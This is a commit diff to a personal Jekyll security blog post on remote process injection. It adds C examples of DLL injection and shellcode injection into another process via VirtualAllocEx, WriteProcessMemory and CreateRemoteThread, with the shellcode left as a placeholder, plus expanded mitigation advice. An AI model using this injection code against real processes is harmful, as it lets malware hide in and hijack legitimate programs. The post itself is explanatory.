

Before and after one commit to boloto1979/boloto1979.github.io, a Jekyll site: the page built from _posts/2023-10-31-remote-injection.md, in a window 1280 px wide and 1400 px high, scrolled down 564 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1250 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
remote injection update

````diff
--- a/_posts/2023-10-31-remote-injection.md
+++ b/_posts/2023-10-31-remote-injection.md
@@ -6,40 +6,117 @@
 
 ## Objectives of Remote Process Injection
 
-- **Data Exfiltration:** Attackers can steal sensitive information, such as passwords and financial data.
+Remote process injection serves various objectives, including:
 
-- **Remote Control:** Intruders can take over the target system to perform malicious actions.
+1. **Data Exfiltration:** Attackers can steal sensitive information, such as passwords and financial data.
 
-- **Privilege Escalation:** The technique can be used to gain privileged access.
+2. **Remote Control:** Intruders can take over the target system to perform malicious actions.
 
-- **Persistence:** Attackers ensure that their malicious code continues to run on the system.
+3. **Privilege Escalation:** The technique can be used to gain privileged access.
+
+4. **Persistence:** Attackers ensure that their malicious code continues to run on the system.
 
 ## Injection Methods
 
 There are various techniques for remote process injection, including:
 
-- **DLL Injection:** Injection of malicious dynamic link libraries into a running process.
+### DLL Injection
 
-- **Shellcode Injection:** Direct injection of code into the memory of the target process.
+DLL Injection involves injecting a malicious dynamic link library into a running process. Here's an example in C:
 
-- **Injection via Malicious Documents:** Creating documents containing malicious code.
+```c
+#include <Windows.h>
 
-- **Injection via Web Browsers:** Exploiting web browsers to inject code into related processes.
+int main() {
+    // Open a target process (e.g., notepad.exe) for injection
+    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1234); // Replace 1234 with the actual process ID
+
+    if (hProcess) {
+        // Load your malicious DLL into the target process
+        LPVOID pDllPath = VirtualAllocEx(hProcess, NULL, MAX_PATH, MEM_COMMIT, PAGE_READWRITE);
+        WriteProcessMemory(hProcess, pDllPath, "C:\\path\\to\\malicious.dll", MAX_PATH, NULL);
+
+        // Get the address of the LoadLibrary function in the target process
+        LPVOID pLoadLibrary = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
+
+        // Create a remote thread to load the DLL
+        HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibrary, pDllPath, 0, NULL);
+
+        // Cleanup and close handles
+        CloseHandle(hRemoteThread);
+        VirtualFreeEx(hProcess, pDllPath, 0, MEM_RELEASE);
+        CloseHandle(hProcess);
+    }
+
+    return 0;
+}
+```
+**Explanation:**
+
+- We open the target process using `OpenProcess`.
+- Allocate memory in the target process to store the path to the malicious DLL using `VirtualAllocEx`.
+- Write the path to the DLL into the target process's memory using `WriteProcessMemory`.
+- Get the address of the `LoadLibrary` function in the target process using `GetProcAddress`.
+- Create a remote thread in the target process that calls `LoadLibrary` with the DLL path, effectively injecting the DLL.
+
+## Shellcode Injection
+Shellcode Injection involves directly injecting code into the memory of the target process. Here's an example in C:
+
+```c
+#include <Windows.h>
+
+int main() {
+    // Open a target process (e.g., notepad.exe) for injection
+    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 1234); // Replace 1234 with the actual process ID
+
+    if (hProcess) {
+        // Allocate memory in the target process for shellcode
+        LPVOID pShellcode = VirtualAllocEx(hProcess, NULL, 4096, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
+
+        // Write your malicious shellcode into the target process's memory
+        unsigned char shellcode[] = { /* your shellcode here */ };
+        WriteProcessMemory(hProcess, pShellcode, shellcode, sizeof(shellcode), NULL);
+
+        // Create a remote thread to execute the shellcode
+        HANDLE hRemoteThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pShellcode, NULL, 0, NULL);
+
+        // Cleanup and close handles
+        CloseHandle(hRemoteThread);
+        VirtualFreeEx(hProcess, pShellcode, 0, MEM_RELEASE);
+        CloseHandle(hProcess);
+    }
+
+    return 0;
+}
+
+```
+**Explanation:**
+
+- We open the target process using `OpenProcess`.
+- Allocate memory in the target process to store the shellcode using `VirtualAllocEx`.
+- Write your malicious shellcode into the target process's memory using `WriteProcessMemory`.
+- Create a remote thread in the target process to execute the shellcode.
 
 ## Prevention and Mitigation
 
 To protect against remote process injection, adopt the following security practices:
 
-- Keep systems and software up to date with security patches.
+1. **Keep systems and software up to date with security patches.**
+   Regularly apply security patches and updates to your operating systems and software to fix vulnerabilities that could be exploited.
 
-- Implement intrusion detection and prevention systems.
+2. **Implement intrusion detection and prevention systems.**
+   Utilize intrusion detection and prevention systems to monitor and filter network traffic for suspicious activities and potential injection attempts.
 
-- Limit access privileges and actively monitor the network for suspicious activities.
+3. **Limit access privileges and actively monitor the network for suspicious activities.**
+   Implement the principle of least privilege to restrict access to critical systems. Continuously monitor network traffic for any anomalies or suspicious behaviors.
 
-- Educate employees on safe browsing practices and caution with untrusted documents and links.
+4. **Educate employees on safe browsing practices and caution with untrusted documents and links.**
+   Provide security awareness training to employees to help them recognize and avoid potential threats like malicious documents and links.
 
-- Use advanced firewalls and threat prevention systems.
+5. **Use advanced firewalls and threat prevention systems.**
+   Deploy advanced firewalls and threat prevention solutions to filter incoming and outgoing network traffic, blocking known attack vectors.
 
-- Implement multi-factor authentication for critical accounts and systems.
+6. **Implement multi-factor authentication for critical accounts and systems.**
+   Enforce multi-factor authentication (MFA) for accessing critical accounts and systems, adding an extra layer of security.
 
 Remote process injection is a serious threat that requires ongoing vigilance and proactive security measures to mitigate associated risks.
````
